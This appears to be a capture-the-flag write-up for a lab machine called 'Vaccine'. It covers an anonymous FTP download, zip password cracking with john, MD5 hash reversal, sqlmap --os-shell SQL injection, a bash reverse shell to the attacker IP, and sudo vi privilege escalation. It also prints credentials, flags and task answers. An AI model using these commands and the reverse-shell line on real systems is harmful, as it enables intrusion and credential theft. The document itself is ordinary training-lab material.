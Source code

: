 # Vaccine

## ip

target: 10.129.95.174

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.95.174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 09:46 EST
Warning: 10.129.95.174 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.174
Host is up (0.40s latency).
Not shown: 64772 closed tcp ports (conn-refused), 760 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.29 seconds
```

## I. Get backup.zip file from ftp

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.95.174      
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10702|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10962|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |***********************************************************************************************************************************************************************************************|  2533      175.80 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (6.05 KiB/s)
ftp> exit
221 Goodbye.                             
┌──(kali㉿kali)-[~]
```

## II. Crack backup.zip using john

`zip2john backup.zip > zip.hases`

`john zip.hashes`

`john zip.hashes --show`

```bash
┌──(kali㉿kali)-[~]
└─$ zip2john backup.zip > zip.hashes
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
    
┌──(kali㉿kali)-[~]
└─$ john zip.hashes               
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)     
1g 0:00:00:00 DONE 2/3 (2023-02-24 10:00) 16.66g/s 1416Kp/s 1416Kc/s 1416KC/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed.                                                                                
┌──(kali㉿kali)-[~]
└─$ john zip.hashes --show
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
```

=> password: `741852963`

## III. source code review => admin password

source code in `backup.zip`:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

md5-reverse("2cb42f8734ea607eefed3b70af13bbd3") = `qwerty789`

## IV. SQLi to reverse shell

website contains a search function which is vulnerable to SQLi

`sqlmapr` is a saved request when using the search function:

- --os-shell:

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ sqlmap -r sqlmapr --os-shell -batch

  os-shell> bash -c "bash -i >& /dev/tcp/10.10.15.248/4242 0>&1"
  ```

- => listening port:

  ```bash
  ┌──(pwncat)─(kali㉿kali)-[/usr/share/webshells/php]
  └─$ pwncat-cs --listen --port 4242
  /home/kali/Documents/learn-python/env/pwncat/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
    'class': algorithms.Blowfish,
  [10:51:31] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
  [10:56:15] received connection from 10.129.95.174:41714                                                                                                                                                                           bind.py:84
  [10:56:23] 10.129.95.174:41714: registered new host w/ db                                                                                                                                                                     manager.py:957
  (local) pwncat$                                                                                                                                                                                                                             
  (remote) postgres@vaccine:/var/lib/postgresql/11/main$ whoami
  postgres
  ```

## V. source code review => postgresql password

we have a reverse shell as `postgresql` user but we don't have password for this user.

=> check web source code, there may be credentials of `postgresql` used to connect to db

```bash
(remote) postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/www/html/dashboard.php

...
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
...
```

=> `postgres:P@s5w0rd!`

## user flag

`/var/lib/postgresql/user.txt`

```bash
(remote) postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
```

## root flag

use `sudo -l` to list the allowed (and forbidden) commands for the `postgres` user:

  ```bash
  (remote) postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
  [sudo] password for postgres: 
  Matching Defaults entries for postgres on vaccine:
      env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

  User postgres may run the following commands on vaccine:
      (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
  ```

haha, vi, i learned vi 2 years ago, brrrrrrr:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

press `esc`, use `:e /root/root.txt` to open another file:

```bash
d6e058e814260bc70e9bbdef2715849
```

## Task

Task 1: Besides SSH and HTTP, what other service is hosted on this box?: `ftp`

Task 2: This service can be configured to allow login with any password for specific username. What is that username?: `anonymous`

Task 3: What is the name of the file downloaded over this service?: `backup.zip`

Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: `zip2john`

Task 5: What is the password for the admin user on the website?: `qwerty789`

Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: `--os-shell`

Task 7: What program can the postgres user run as root using sudo?: `vi`

Submit user flag: done

Submit root flag: done

## References

<https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html>
